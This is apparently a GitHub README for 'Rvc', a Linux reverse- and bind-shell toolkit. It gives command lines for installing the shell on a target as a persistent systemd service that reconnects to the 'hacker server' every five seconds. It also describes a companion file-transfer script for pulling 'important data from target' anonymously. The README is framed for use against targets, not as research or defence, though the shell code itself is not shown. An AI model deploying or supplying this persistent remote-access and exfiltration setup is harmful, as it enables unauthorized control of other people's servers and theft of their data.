 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python3
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python3
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. We have written this FTP in both reverse and bind methodologies.
This script is to be copied with the other scripts on target pc to enable its features obviously.

A) Reverse transfer

![demo image2](demo-rft.jpg)

1) first start rvc-rft in reciever mode 
```
./rvc-rft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-rft send (reciever hostname) (port no.) (path/to/get/file)
```
3) have patience and DONE!! because no progress bars, etc.


B) Bind transfer

![demo image3](demo-bft.jpg)

1) first start rvc-bft in sender mode 
```
./rvc-bft send (sender hostname) (port no.) (path/to/get/file)
```
2) then transmit the remote file
```
./rvc-bft recv (sender hostname) (port no.) (path/to/save/file/as)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

